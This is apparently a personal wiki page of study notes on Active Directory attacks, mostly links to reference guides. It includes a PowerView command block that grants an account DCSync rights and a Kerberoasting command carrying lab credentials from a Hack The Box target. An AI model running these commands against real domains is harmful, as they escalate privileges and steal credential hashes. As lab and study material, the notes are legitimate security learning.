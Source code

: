 ```yaml
---
layout: wiki
title: Internals - Active Directory Resources
cate1: Internal
cate2: Active Directory
description: Notes about Active Directory
keywords: Internals
---
```


# Active Directory Exploitation Strategies
 - [ASREPRoasting via Impacket](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/asreproast)
 - **WriteDACL**
   - [WriteDACL - BloodHound](https://support.bloodhoundenterprise.io/hc/en-us/articles/17312765477787-WriteDacl)
 - [Abusing Active Directory ACLs/ACEs](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/acl-persistence-abuse)
 - [NTLMRelay](https://www.thehacker.recipes/ad/movement/ntlm/relay)
 - [DCSync - secretsdump](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/dcsync)
   - **With PowerView**:
    ```
    whoami /all
    Add-ADGroupMember -Identity "Exchange Windows Permissions" -members svc-alfresco
    net group "Exchange Windows Permissions" /add svc-alfresco
    Add-DomainObjectAcl -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity svc-alfresco -Rights DCSync
    Add-ObjectACL -PrincipalIdentity test123 -Credential $cred -Rights DCSync
    Get-DomainUser -Identity svc-alfresco
    Get-ObjectAcl -DistinguishedName "DC=htb,DC=local" -ResolveGUIDs | Where-Object { $_.IdentityReference -match "svc-alfresco" }
    ```
 - [SYSVOL Group Policy Credential Mining](https://adsecurity.org/?p=2288)
   - ```gppdecrypt```
 - [Kerberoasting](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/kerberoast)
   - GetUserSPNs.py -request active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100```
   - Requires an account user with a service principal name (SPN)

## Active Directory Tools
 - [PowerView (Deprecated since 2021)](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)
   -  ```. .\powerview.ps1```
 - [BloodHound CE](https://github.com/SpecterOps/BloodHound)
 - 

## Impacket Tools
  - **PSExec**
    - Shell access via SMB shares (Pass the Hash) 
  - **GetNPUsers**
    - Kerberos Pre-authentication disabled (ASREPRoasting)
 
## Resources
 - [The Hacker Recipes](https://www.thehacker.recipes/)
